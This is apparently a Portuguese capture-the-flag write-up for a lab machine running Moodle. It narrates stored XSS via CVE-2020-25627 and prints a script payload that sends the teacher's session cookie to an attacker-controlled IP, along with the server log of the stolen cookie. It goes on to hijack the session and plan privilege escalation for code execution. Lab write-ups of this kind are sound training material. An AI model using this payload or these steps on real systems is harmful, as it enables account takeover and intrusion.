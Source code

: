 Isso significa que o professor Manuel Philips verificará todos os perfis MoodleNet dos alunos que se inscreveram na matéria e, caso possamos armazenar um XSS neste atributo, poderemos utilizar deste artifício para roubar a sessão do professor a partir dos atributos do cabeçalho da requisição. Com acesso na plataforma, dependendo dos privilégios do professor, podemos buscar por uma oportunidade de RCE.

## Acesso inicial

Buscando por **MoodleNet XSS**, encontrei este [Security Announcement](https://moodle.org/mod/forum/discuss.php?d=410839) que menciona o **CVE-2020-25627**, corrigido apenas na versão 3..9.2 e afeta as versões 3.9 e 3.9.1, que coincide com nosso cenário.

Buscando por uma prova de conceito (PoC) para este CVE, encontrei o repositório [HoangKien1020/CVE-2020-25627: Stored XSS via moodlenetprofile parameter in user profile (github.com)](https://github.com/HoangKien1020/CVE-2020-25627) que contém as instruções para exploração, que foram implementadas e me permitiram obter o cookie da sessão do professor, conforme evidencia abaixo:

* Loguei com a conta recentemente criada e modifiquei o MoodleNet profile para o conteúdo abaixo

```html
<script>var i=new Image;i.src="http://10.10.10.10/xss.php?"+document.cookie;</script>
```

* Hospedei o arquivo `xss.php` mencionado no repositório em uma pasta e iniciei um PHP Webserver com os comandos abaixo e, cerca de 2 minutos depois, comecei a receber as requisições da conta do professor, nos mostrando os cookies utilizados por ele.

```bash
$ sudo php -S 0.0.0.0:80 -t .
[Mon Aug  9 14:44:05 2021] PHP 7.4.21 Development Server (http://0.0.0.0:80) started
[Mon Aug  9 14:45:28 2021] 10.10.10.234:55102 Accepted
[Mon Aug  9 14:45:28 2021] PHP Notice:  Undefined index: METHOD in /opt/dcruz/htb/schooled-10.10.10.234/exploit/www/xss.php on line 28
[Mon Aug  9 14:45:28 2021] PHP Notice:  Undefined index: REMOTE_HOST in /opt/dcruz/htb/schooled-10.10.10.234/exploit/www/xss.php on line 29
[Mon Aug  9 14:45:28 2021] 10.10.10.234:55102 [200]: GET /xss.php?MoodleSession=d8so1t4rs4vmg8btrgfr2ps6fr
[Mon Aug  9 14:45:28 2021] 10.10.10.234:55102 Closing

```

Agora sabendo quais os parametros da sessão do professor, alterei o valor do cookie no meu navegador e, após atualizar a página, pude observar que a conta agora é listada como a do professor Manuel Philips.

![HTB Schooled - Moodle as Manuel Philips](https://i.imgur.com/n3plh19.png){: .align-center}

Agora que temos acesso a outra conta, necessitamos validar se as permissões possuidas por este usuário são suficientes para dar continuidade na exploração, vindo a obter um RCE.

Pesquisando sobre explorações em Moodle em [Moodle - HackTricks](https://book.hacktricks.xyz/pentesting/pentesting-web/moodle#rce), encontrei qeu é necessário o privilégio de *manager* para realizar o upload de um plugin, método mais eficiente para obter execução de código via aplicação. Mesmo não tendo esta permissão com o usuário do professor, observado que esta versão em execução **também é vulnerável à** [**Escalação de privilégio**](https://moodle.org/mod/forum/discuss.php?d=407393), que poderia nos permitir obter o acesso de manager a partir do curso abusando o processo de inscrição e, se um dos estudantes for um dos *site managers*, este privilégio poderia ser explorado para a finalidade desejada, que é realizar o upload de um plugin malicioso. O mesmo autor da PoC do outro CVE também possui [um repositório no Github](https://github.com/HoangKien1020/CVE-2020-14321) contendo uma PoC que poderia nos auxiliar nesta tarefa.
